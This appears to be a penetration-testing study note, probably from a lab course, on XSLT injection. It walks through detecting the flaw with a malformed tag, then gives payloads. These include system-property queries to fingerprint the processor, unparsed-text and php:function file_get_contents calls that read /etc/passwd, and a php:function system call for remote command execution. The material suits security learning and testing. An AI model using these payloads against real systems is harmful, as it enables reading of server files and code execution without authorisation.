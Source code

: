 ```yaml
---
title: b-Exploit XSLT Injection
draft: false
tags:
  - xslt
---
```

## Identify

> Web app displays basic information about some academy modules. At the bottom of the page, we can provide a username that is inserted into the headline at the top of the list (`Hi Peter, here are your favorite modules:`).

Fact that the name we provided is reflected on the page is suspicious.

Let's suppose the web app stores the module information in an XML document and displays the data using XSLT processing.

To confirm this, we will try to inject a broken XML tag (`<`) and provoke an error in the web app:

`GET /index.php?name=< HTTP/1.1`

Above request provoked `500 Internal Server Error`, which might indicate the presence of a security issue.

## Information Disclosure

We can try to infer some basic information about the XSLT processor in use by injecting the following XSLT elements:

```xml
Version: <xsl:value-of select="system-property('xsl:version')" />
<br/>
Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br/>
Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
<br/>
Product Name: <xsl:value-of select="system-property('xsl:product-name')" />
<br/>
Product Version: <xsl:value-of select="system-property('xsl:product-version')" />
```


## LFI

We can try multiple different functions to read a local file. Payload will work depending on the XSLT version and the configuration of the XSLT library.

For instance, XSLT 2.0 contains a function `unparsed-text` that can be used to read a local file:

```xml
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />
```

For XSLT 1.0, above will not work. We can instead see if the XSLT library is configured to support PHP functions, and PHP function `file_get_contents` using the following XSLT element:

```xml
<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />
```

## RCE

If an XSLT processor supports PHP functions, we can call a PHP function that executes a local system command to obtain RCE. For instance, we can call the PHP function `system` to execute a command:

```xml
<xsl:value-of select="php:function('system','id')" />
```

